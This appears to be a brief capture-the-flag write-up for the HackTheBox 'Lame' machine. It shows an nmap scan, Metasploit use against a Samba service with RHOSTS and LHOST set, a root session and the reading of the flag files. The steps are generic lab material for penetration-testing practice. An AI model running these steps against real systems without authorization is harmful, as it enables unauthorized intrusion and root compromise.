



# HackTheBox **Lame**  
**Difficulty:** Easy  
**Platform:** Linux  

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```bash
nmap -p- -sC -sV -oN outputNMAP.txt $IP 
```



I'll open msfconsole and search for potential exploits for the ftp port and samba port.

```bash
sudo msfconsole -q
```

I found something for the samba port.



I'll set the RHOSTS and LHOST for the exploit and then run it.

```bash
set RHOSTS $targetIP

set LHOST $myIP

run
```

It worked, we have a session. Let's see what user are we.

```bash
whoami
```



As we can see, we don't need to escalate privileges as we are already root.

Let's get the flags:

```bash
cat /user.txt
cat /root/root.txt
```

### We got the User Flag

### We got the Root Flag
